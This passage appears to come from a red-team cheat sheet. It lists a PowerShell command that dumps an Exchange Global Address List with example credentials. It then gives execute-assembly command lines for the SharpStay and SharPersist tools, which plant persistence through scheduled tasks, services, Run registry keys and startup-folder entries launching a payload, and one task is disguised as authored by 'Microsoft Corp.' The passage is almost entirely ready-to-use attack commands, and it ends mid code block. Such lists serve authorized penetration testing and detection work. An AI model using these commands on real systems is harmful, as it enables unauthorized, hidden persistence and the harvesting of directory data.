 # Get the Global Address List (GAL)
powershell Get-GlobalAddressList -ExchHostname ExchangeHost.domain.com -UserName domain\username -Password P@ssw0rd! -OutFile gal.txt
```
------------------------------------------------------------------------------------------
## Persistence
[SharpStay](https://github.com/0xthirteen/SharpStay) - .NET Persistence
```
# Scheduled task persistence
execute-assembly C:\Sharpstay.exe action=ScheduledTask taskname=TestTask command="C:\windows\temp\file.exe" runasuser=testuser triggertype=logon author=Microsoft Corp. description="Test Task" logonuser=testuser

# Service creation persistence
execute-assembly C:\Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\file.exe"

# User registry key persistence
execute-assembly C:\Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\file.exe"

# Many other methods available on the tool's GitHub documentation
```
[SharpPersist](https://github.com/mandiant/SharPersist)
```
# List persistence entries
execute-assembly C:\SharPersist.exe -t [reg,schtaskbackdoor,startupfolder,service] -m list

# Registy persistence
execute-assembly C:\SharPersist.exe -t reg -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -k "hkcurun" -v "Test Payload" -m add -o env

# Scheduled task backdoor persistence
execute-assembly C:\SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -n "Test Scheduled Task" -m add -o daily

# Startup folder persistence
execute-assembly C:\SharPersist.exe -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -f "Test File on Startup" -m add
